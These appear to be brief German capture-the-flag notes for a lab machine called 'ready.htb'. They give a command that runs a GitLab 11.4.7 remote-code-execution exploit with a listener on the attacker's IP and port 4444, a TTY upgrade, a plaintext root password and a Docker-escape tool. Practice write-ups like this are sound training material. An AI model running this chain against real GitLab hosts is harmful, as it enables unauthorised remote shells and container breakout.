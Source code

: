 https://github.com/ctrlsam/GitLab-11.4.7-RCE

python3 exploit.py -u [selbst_erstellter_user] -p [selbst_erstelltes_passwort] -g http://ready.htb -l [DEINE_IP_DU_SHIT] -P 4444

user :cake:

erstmal inetarktive tty:

python3 -c 'import pty; pty.spawn("/bin/bash")'

innerhalb des gitlab tty eingeben:

su
dann pw: wW59U!ZKMbG9+*#h

anschließend mit dem https://github.com/PercussiveElbow/docker-escape-tool
escapen

./docker-escape check

reicht bereits
alternativ: https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout